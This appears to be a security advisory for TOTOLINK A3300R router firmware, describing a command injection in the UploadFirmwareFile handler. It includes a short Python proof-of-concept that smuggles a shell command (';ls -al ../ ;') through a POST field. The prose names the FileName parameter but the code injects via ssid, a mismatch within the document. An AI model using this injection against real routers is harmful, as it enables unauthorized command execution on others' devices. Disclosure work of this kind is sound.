## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3300R V17.0.0cu.557_B20221024 firmware has a command injection vulnerability in the `UploadFirmwareFile` function. The `v2` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the statement `doSystem` can cause a command injection vulnerability.

![image-20240722023936258](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023936258.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"UploadFirmwareFile","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
